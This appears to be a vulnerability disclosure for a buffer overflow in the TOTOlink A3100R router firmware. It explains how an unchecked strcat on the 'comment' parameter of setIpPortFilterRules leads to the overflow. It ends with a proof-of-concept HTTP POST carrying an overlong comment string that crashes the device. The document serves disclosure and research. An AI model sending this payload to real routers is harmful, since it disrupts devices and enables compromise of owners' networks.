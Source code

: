 # TARGET
TOTOlink A3100R
V5.9c.1527
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3100R router device contains a buffer overflow vulnerability in its firmware version V5.9c.1527. The vulnerability arises from the improper input validation of the `comment` parameter in the `setIpPortFilterRules` interface of `/lib/cste_modules/firewall.so`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root//lib/cste_modules/firewall.so`
![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/A3100R-1/IpFilter%20comment.png)

By analyzing the `setIpPortFilterRules` function in `/lib/cste_modules/firewall.so` using IDA, we find that the entry address of the function is `0x00005244`. It is evident that the `v11` variable is passed to `v17` via `strcat` without any filtering or length checks. Through further analysis, it is clear that the controllable `comment` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`comment`" data, and `strcat` copies the string pointed to by `v11` to `v17` without verifying whether `v17` has enough space to store the copied string. If the string pointed to by `v11` exceeds the size of the `v17` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/A3100R-1/IpFilter%20comment%20Result.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `comment` string, potentially causing the program to crash.


# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/firewall/ipport_filtering.asp?timestamp=1743751453020
Accept-Language: zh-Hans-CN,zh-Hans;q=0.8,en-US;q=0.6,en;q=0.4,ja;q=0.2
Accept-Encoding: gzip, deflate, br
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 192.168.0.1
Content-Length: 428
Connection: keep-alive
Cache-Control: no-cache
Cookie: SESSION_ID=2:1743751396:2

{"topicurl":"setting/setIpPortFilterRules","ipAddress":"192.168.0.3","dFromPort":"11","dToPort":"111","protocol":"ALL","comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","addEffect":"0"}
```
